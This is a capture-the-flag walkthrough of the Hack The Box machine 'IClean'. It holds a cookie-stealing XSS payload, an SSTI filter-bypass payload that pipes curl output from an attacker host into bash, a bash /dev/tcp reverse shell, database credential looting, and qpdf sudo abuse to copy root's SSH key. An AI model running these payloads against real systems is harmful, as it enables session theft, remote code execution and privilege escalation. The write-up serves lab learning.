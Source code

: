 🧼 HTB: IClean – Walkthrough

Difficulty: Medium
Tags: XSS, Cookie Theft, SSTI Bypass, MySQL Looting, qpdf Privilege Escalation
🔍 Initial Recon

Started with standard nmap:

nmap -sC -sV -v <TARGET_IP>

Only ports open:

    22: SSH

    80: HTTP

🧪 Web Analysis

Web server = Flask (confirmed via Wappalyzer).

    /login – nothing useful.

    /quote – dynamic behavior found in service parameter.

🧠 Attempted basic XSS:

<img src="http://<attacker-ip>:8000" />

🛰️ Set up listener:

python3 -m http.server 8000

✅ Received the callback — confirmed XSS.
🍪 XSS to Session Hijack

Discovered /dashboard via feroxbuster, but it was access-restricted.

💉 Crafted XSS cookie-stealing payload:

<img src=x onerror=fetch('http://<attacker-ip>:8000/?c='+document.cookie)>

⚡ Stolen cookie appeared in listener.

Used Cookie Editor to inject it manually → gained access to /dashboard.
🧾 SSTI via QR Code Generator

Within dashboard: invoice generator with QR code builder.

Found a parameter at /QRGenerator/qr_link that reflected user input.

🧪 Tested with:

{{7*7}}

🟢 Result → 49 appeared → SSTI confirmed

Tried typical payloads → blocked (likely filtered).
🧠 SSTI Filter Bypass (Flask)

Payload used:

{{request|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("curl <attacker-ip>:8000/revshell | bash")|attr("read")()}}

Set up:

echo "bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1'" > revshell
python3 -m http.server 8000
nc -lvnp <port>

Injected payload into qr_link → boom, reverse shell landed.
🔍 Post-Exploit Enumeration

Shell landed in /opt/app.

Found app.py with database creds.

Connected to MySQL:

mysql -u iclean -p

Extracted password hashes for admin and consuela.

Cracked consuela's hash with CrackStation → got a valid password.

Logged in as consuela via SSH.
🧨 Privilege Escalation via qpdf

Checked sudo perms:

sudo -l

✅ consuela can run /usr/bin/qpdf as root.

Used qpdf to copy root’s SSH key:

sudo /usr/bin/qpdf --empty /tmp/priv_key.txt --qdf --add-attachment /root/.ssh/id_rsa --

Extracted the key → chmod 600 → used for SSH:

ssh -i priv_key.txt root@<TARGET_IP>

Got root access.
🏁 Flags

    user.txt: ✔️

    root.txt: ✔️
